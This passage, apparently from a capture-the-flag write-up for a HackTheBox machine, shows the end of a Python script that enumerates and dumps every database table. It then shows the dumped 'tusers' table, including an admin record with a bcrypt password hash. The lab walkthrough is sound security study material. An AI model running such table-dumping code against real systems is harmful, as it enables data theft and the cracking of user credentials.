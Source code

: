 ```python
        print(f"[#{i}]: {table_name}")
        table_data = fetch_table(table_name)
        print(f"[#{i}]: {table_data}")
        tables.append({"table": table_name, "data": table_data})
        i += 1
    return tables

fetch_all_tables()
```

One interesting table is `tusers`since all user information is stored there. We can see that there is an admin account present.

```json
// cut and formatted for brevity
[
  // ...
  {
    "UserID":"4117F4DF-028C-47CC-B953835D091F1E82",
    "GroupName":null,
    "Fname":"Admin",
    "Lname":"User",
    "UserName":"admin",
    "password":"$2a$10$xHRN1/9qFGtMAPkwQeMLYes2ysff2K970UTQDneDwJBRqUP7X8g3q",
    "PasswordCreated":"2024-11-11 16:57:59",
    "Email":"admin@freedom.htb",
    "Company":null,
    "JobTitle":null,
    "mobilePhone":null,
    "Website":null,
    "Type":"2",
    "subType":"Default",
    "Ext":null,
    "ContactForm":null,
    "Admin":null,
    "S2":"1",
    "LastLogin":"2024-12-02 11:25:13",
    "LastUpdate":"2024-11-11 08:46:23",
    "LastUpdateBy":"System",
    "LastUpdateByID":"22FC551F-FABE-EA01-C6EDD0885DDC1682",
    "Perm":"0",
    "InActive":"0",
    "isPublic":"0",
    "SiteID":"default",
    "Subscribe":"0",
    "notes":null,
    "description":null,
    "interests":null,
    "keepPrivate":"0",
    "photoFileID":null,
    "IMName":null,
    "IMService":null,
    "created":"2024-11-11 08:46:23",
    "remoteID":null,
    "tags":null,
    "tablist":null
  },
  // ...
]
```
